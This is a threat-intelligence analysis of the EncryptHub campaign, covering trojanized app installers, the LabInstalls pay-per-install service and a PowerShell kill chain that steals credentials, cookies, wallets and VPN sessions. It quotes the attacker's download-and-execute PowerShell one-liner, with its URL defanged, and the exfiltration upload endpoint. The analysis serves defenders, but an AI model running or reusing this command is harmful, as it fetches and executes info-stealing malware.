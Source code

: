 ### Technical Details
![alt text](<images/The Feed 2025-03-10_2.png>)
*EncryptHub*'s campaigns utilize a **multi-stage attack chain**, primarily relying on **PowerShell scripts**. The initial stage often involves the distribution of **trojanized versions of popular applications** such as QQ Talk, QQ Installer, WeChat, DingTalk, VooV Meeting, Google Meet, Microsoft Visual Studio 2022, and Palo Alto Global Protect. These counterfeit applications are designed to appear legitimate to reduce user suspicion and bypass some security checks.

The analyzed trojanized applications contained an embedded **PowerShell script** that downloads **worker.ps1**. This script gathers basic system information, including the external IP address, username, computer name, location (country and city), OS version, domain name, build type, and administrator status, and sends this data back to a remote server. Connections to other PowerShell scripts like **encrypthub\_steal.ps1** (likely a Kematian Stealer sample) and **message.ps1** (another system information gathering script) were also observed.

A significant distribution vector is the use of a **third-party Pay-Per-Install (PPI) service called “LabInstalls”**, operating since at least January 2nd, 2025. *LabInstalls* functions as a broker for malicious executables and PowerShell scripts, managing customer interactions and installation purchases through a fully automated **Telegram bot (@labInstalls\_bot)**. *EncryptHub* confirmed their use of this service by providing positive feedback on the Russian-speaking underground forum XSS.

The latest observed killchain, active around February 13th, 2025, starts with the execution of the following **PowerShell command** on the victim's machine:
```powershell
powershell.exe -ExecutionPolicy Bypass -WindowStyle Hidden -Command “Invoke-RestMethod -Uri ‘hxxps://encrypthub[.]us/encrypthub/fickle/payload.ps1’ | Invoke-Expression”
```
This command downloads and executes **payload.ps1**, which is personalized with the attacker's build ID. **payload.ps1** performs several actions:
*   **Instance check**: Verifies if another instance is running.
*   **Data exfiltration**: Targets Telegram messaging sessions, browser-based and desktop cryptocurrency wallets, password manager files from browsers and extensions, files with specific extensions and keywords, and VPN sessions (currently only PaloAltoGP).
*   **System information collection**: Gathers basic system details (Windows version, CPU, GPU) and detects installed antivirus software.
*   **Cookie theft**: Decodes and executes an embedded **base64-encoded Go version of Kematian Stealer** to harvest browser cookies.
*   **Data storage and exfiltration**: Saves stolen information in a temporary directory, compresses it, and sends it to `$($serveruri):8081/upload_file?filename=$base64FileName&buildType=$base64BuildType`, where `$serveruri` is `encrypthub[.]us`.
*   **Reporting**: Sends a tally of stolen data (cookies, passwords, wallets, emails) and system information to `$($serveruri):8081`.
*   **Secondary payload execution**: Downloads and executes **runner.ps1** from `$($serveruri)/$build/ram/runner.ps1`, saved with a random name.
